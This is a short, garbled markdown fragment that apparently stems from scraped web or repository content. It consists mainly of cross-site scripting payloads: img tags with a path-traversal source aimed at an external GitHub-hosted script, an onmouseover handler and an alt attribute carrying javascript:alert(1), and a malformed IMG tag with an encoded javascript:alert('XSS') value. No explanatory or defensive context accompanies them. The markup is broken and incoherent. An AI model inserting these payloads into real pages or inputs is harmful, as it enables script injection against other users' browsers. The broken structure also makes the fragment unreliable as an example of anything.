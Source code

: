 ![
%0a
<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="%08javascript:alert(1)" onmouseover="javascript:alert(1)" style="width: url(paper.gif);"/>

<IMG SRC= color=javascript%3aalert(&quot;XSS&quot;) >
  
](()
